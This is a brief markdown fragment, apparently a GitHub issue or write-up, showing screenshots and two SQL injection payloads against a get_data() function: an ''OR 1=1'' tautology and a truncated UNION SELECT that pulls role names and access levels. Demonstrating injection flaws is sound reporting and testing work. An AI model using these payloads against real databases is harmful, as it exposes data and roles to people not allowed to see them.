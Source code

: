 ![image](https://user-images.githubusercontent.com/58373600/207043649-c82beed2-926e-475d-90f3-d515d43e3b21.png)

`SELECT * FROM get_data('1'' OR 1=1 -- ');`

![image](https://user-images.githubusercontent.com/58373600/207044334-7e217ed1-ad8f-4f68-95ff-f209c9bd1e19.png)

`SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FR`

![image](https://user-images.githubusercontent.com/58373600/207046218-af99477d-304a-4c66-bef2-023c7308aac3.png)


